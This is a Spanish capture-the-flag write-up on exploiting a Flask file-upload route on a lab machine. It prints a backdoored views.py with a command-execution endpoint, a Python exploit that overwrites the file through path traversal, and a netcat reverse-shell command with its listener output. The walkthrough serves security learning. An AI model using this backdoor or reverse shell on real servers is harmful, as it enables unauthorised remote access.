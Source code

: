 En la web hay una ruta para subir archivos "/upload" y otra para descargar el codigo fuente como zip.
En el codigo hay de todo, como una imagen docker para construir, pero los que nos interesa es un archivo llamado "views.py" dentro de la ruta
"./app/app", esto es el código fuente de la web, un código python de estilo api.

La ruta de /uploads es para subir un archivo, intente es clásico backdoor de php pero no funcionaba, asi que tras investigar, se da con que es un "LFI"
un poco extraño, consta de subir el archivo views.py en una ruta especial (especificada en filename) para que sobreescriba el views.py original y hacer la 
backdoor.
El root de la web o sea de donde parte es app/app porque es ahi donde esta el codigo fuente, pero nosotros tiramos del directorio uploads "/uploads" 
asi que hay que ir un paso atras. 
Hubo mucho problema para encontrar el lfi que funcionara, el primer intnto logico fue "../views.py"
al final funciono con "..//app/app/uploads" o sea "..//" + ruta absoluta. EN linus ../ es un directorio para atras, pero tambien se peude poner ..// y
no da error.

## Views.py

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file
from app import app

@app.route('/')
def index():
    return render_template('index.html')
    
@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))

@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')

@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
    
# Esta es la parte que añadimos nosotros ---------------------------------------->
@app.route('/exec')
def rce():
    return os.system(request.args.get('cmd'))
```


## Exploit 

```python
import requests
import re
atacker_ip = "10.10.16.100"
atacker_port = "443"

try:
        url = 'http://10.10.11.164/upcloud'
        python = open('views.py', 'rb')
        req = requests.post(url, data = {"filename":"..//app/app/views,py"}, files = {"file": python})
        url2 = "http://10.10.11.164"
        url2 += "/exec?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20" 
        url2 += atacker_ip + "%20" + atacker_port + "%20%3E%2Ftmp%2Ff"
        req2 = requests.get(url2)
except:
    pass
```
Te pones en esuchca con el netcat por el puerto 443 y ejecutas el exploit.

```console
[cucuxii]~[opensource]:$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.16.100] from (UNKNOWN) [10.10.11.164] 45231
/bin/sh: can't access tty; job control turned off
/app # 
```





